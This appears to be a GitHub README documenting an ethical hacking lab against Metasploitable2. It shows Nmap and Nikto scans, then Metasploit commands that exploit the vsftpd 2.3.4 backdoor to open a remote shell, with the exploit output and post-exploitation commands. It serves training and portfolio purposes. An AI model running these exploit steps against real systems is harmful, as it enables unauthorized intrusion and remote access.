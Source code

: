 # Ethical Hacking Lab: Exploiting vsftpd 2.3.4 on Metasploitable2

This project demonstrates a successful ethical hacking lab where I scanned, identified, and exploited a known vulnerability in an intentionally vulnerable virtual machine. The goal was to simulate real-world penetration testing techniques and document the process for recruiters and hiring managers to review.

---

## Lab Setup

| Role            | Machine           | OS/Tool Used     |
|-----------------|-------------------|------------------|
| Attacker        | Kali Linux (VM)   | Kali 2025.1c     |
| Victim          | Metasploitable2   | Linux (Ubuntu)   |
| Virtual Network | Host-Only (VMnet1)| VMware Workstation 17 Player |

---

## Tools Used

- [Kali Linux](https://www.kali.org/)  
- [Metasploitable2](https://sourceforge.net/projects/metasploitable/)  
- [Nmap](https://nmap.org/)
- [Nikto](https://github.com/sullo/nikto)
- [Metasploit Framework](https://www.metasploit.com/)

---

## Reconnaissance and Scanning

### Nmap Scan

**Command:**
```bash
nmap -sS -sV -O -A <victim-ip>

## 📌 Notable Results:
Port 21: FTP — vsftpd 2.3.4 (known backdoor vulnerability)

Port 22: OpenSSH 4.7p1 Debian

Port 23: Telnet enabled

Port 25: Exim mail server

Port 80: Apache 2.2.8 (outdated)

Port 3306: MySQL database server

Port 5432: PostgreSQL database server

Port 8180: Apache Tomcat/5.5.20 (default credentials enabled)

Port 139/445: Samba file sharing service

📸 Screenshot:![Nmap Scan](./screenshots/Image1.png)

## 🔎 Phase 2: Web Vulnerability Scan with Nikto
**Command:**
bash
nikto -h http://<victim-ip>

## 📌 Notable Results:
Apache version is outdated (2.2.8)

HTTP TRACE method is enabled (XST vulnerability)

PHP version is outdated (5.2.4-2ubuntu5.10)

/phpinfo.php is exposed (leaks environment variables)

/phpmyadmin and changelogs are exposed

Directory indexing is enabled

CVE-2009-3555 and other known Apache vulnerabilities are present

📸 Screenshot:![Nikto Scan](./screenshots/Image2.png)

## 💥 Phase 3: Exploitation with Metasploit (vsftpd 2.3.4 Backdoor)
Commands:
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <victim-ip>
set RPORT 21
run

### 💣 Result:
[*] 192.168.X.X:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.X.X:21 - Exploit completed, but no session was created
[*] 192.168.X.X:21 - Attempting to trigger backdoor...
[*] Command shell session 1 opened

### 🛠 Post-Exploitation Commands:
bash
whoami
uname -a
hostname
id

### 📌 Output:

OS: Linux metasploitable 2.6.x

Hostname: metasploitable

Access: Remote shell confirmed

📸 Screenshot:![Shell Access](./screenshots/Image3.png)(./screenshots/Image4.png)

## 🧠 Lessons Learned
How to perform recon using Nmap and Nikto

Identifying and exploiting real vulnerabilities

Gaining shell access using Metasploit

Importance of isolating testing environments

How to document and present offensive security findings

## 🔒 Disclaimer
This lab was conducted in a secure, offline environment using intentionally vulnerable systems.
Do NOT attempt these techniques on unauthorized or production systems.
This project is for educational and professional development purposes only.

## 🙋 Author
Crystal Hicks
Information Security Analyst
Linkedin: https://www.linkedin.com/in/crystal-brown333 

